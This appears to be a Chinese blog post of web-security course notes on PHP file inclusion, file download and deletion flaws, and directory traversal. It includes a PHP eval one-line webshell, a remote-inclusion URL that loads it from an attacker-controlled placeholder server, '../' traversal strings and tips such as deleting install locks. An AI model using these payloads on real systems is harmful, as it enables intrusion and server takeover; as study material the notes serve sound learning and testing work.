

---
categories:
  - 网络安全
date: 2026-01-18
description: 小迪secWeb攻防学习笔记文件包含
slug: 5
tags:
  - 
title: Web攻防-50&51天-文件包含、文件安全
cover:
  image: 1.png
  relative: true
---

# 0x00相关概念
代码执行：

**本地包含**：攻击者通过构造路径，读取服务器上的敏感文件（如配置文件、日志文件）。

利用：
- 有文件利用：上传一个文件 文件写有我们构造好的恶意代码（配合上传）
- 无文件利用：
				1、包含日志文件利用
				2、包含session文件利用
				3、伪协议利用

**远程包含**：当PHP配置中`allow_url_include`和`allow_url_fopen`开启时，攻击者可加载远程恶意脚本。

示例：
上传一个 `1.txt` 内容为一句话木马在自己服务器：
```php
<?php eval($_POST[1]);?>
```
上传后访问，以http协议读取：
```http
http://xxx.com/include.php?file=http://your vps.com/1.txt
```
即可通过蚁剑链接。

# 文件安全-下载&删除-黑白盒
1、下载=读取

常规下载URL：http://www.xxx.com/upload/123.pdf

可能存在安全URL：http://www.xxx.com/xx.xx?file=123.pdf

利用：常规下载敏感文件（数据库配置、中间件配置、系统密钥等文件信息）

2、文件删除（常出现在后台中）

可能存在的安全问题：前台或后台有删除功能应用

利用：常规删除重装锁定配合程序重装或高危操作

# 目录安全-遍历&穿越-黑白盒
1、目录遍历

目录权限控制不当，通过遍历获取到有价值的信息文件去利用

2、目录穿越（常出现在后台中）

../../../../../绕过



# 黑盒分析
1、功能点

文件上传，文件下载，文件删除，文件管理器等地方

2、URL特征

文件名：

download,down,readfile,read,del,dir,path,src,Lang等

参数名：

file,path,data,filepath,readfile,data,url,realpath等

# 白盒分析
上传类函数，删除类函数，下载类函数，目录操作函数，读取查看函数等


参考文章：
- https://www.cnblogs.com/Zeker62/p/15322771.html
